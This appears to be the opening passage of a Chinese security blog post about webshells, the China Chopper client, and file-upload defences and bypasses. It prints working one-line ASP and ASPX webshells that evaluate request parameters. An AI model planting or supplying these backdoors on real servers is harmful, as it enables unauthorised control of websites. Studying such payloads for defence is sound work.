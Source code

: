 ```yaml
---
title: 木马文件上传防御策略及几种绕过检测方式
subtitle: 
summary: 这篇文章主要介绍了菜刀的基本使用方法，总结了一些对文件上传的防御策略和绕过文件上传检测的方法
authors:
- admin
tags: ["webshell","upload","bypass"]
categories: ["Hack"]
date: "2017-03-20T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
image:
  caption: ""
  focal_point: ""

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


# 0x01 中国菜刀连接

## 1. WebShell

WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WE目录下正常的网页文件混在一起，然后就可以使用浏览器或工具来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。

通常来说，上传一句话木马通过中国菜刀连接是比较简便地拿到服务器的方法。菜刀可以连接asp、aspx、php、jsp的一句话木马。

## 2. 一句话木马

- asp：

  ```asp
  <%eval request("pass")%>
  ```

- aspx:

  ```asp
  <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
  ```
